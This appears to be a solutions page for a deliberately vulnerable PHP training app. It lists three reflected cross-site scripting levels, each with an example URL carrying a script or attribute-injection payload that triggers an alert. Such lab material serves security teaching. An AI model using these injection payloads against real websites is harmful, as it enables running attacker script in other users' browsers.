 ## Level 1

**Vulnerability:** Reflected XSS (Cross Site Scripting)

**Exploit :** `/Vulnerable_code/PHP/XSS/level_1.php?username=<script>alert(1)</script>`

**Impact:** Execute arbitrary Javascript code on Web Browser.


## Level 2

**Vulnerability:** Reflected XSS (Cross Site Scripting)

**Exploit :** `/Vulnerable_code/PHP/XSS/level_2.php?username=eee' onclick='javascript:alert(1)//`

**Impact:** Execute arbitrary Javascript code on Web Browser when clicking on the link.



## Level 3

**Vulnerability:** Reflected XSS (Cross Site Scripting)

**Exploit :** `/Vulnerable_code/PHP/XSS/level_3.html?default=<script>alert(1)</script>`

**Impact:** Execute arbitrary Javascript code on Web Browser.

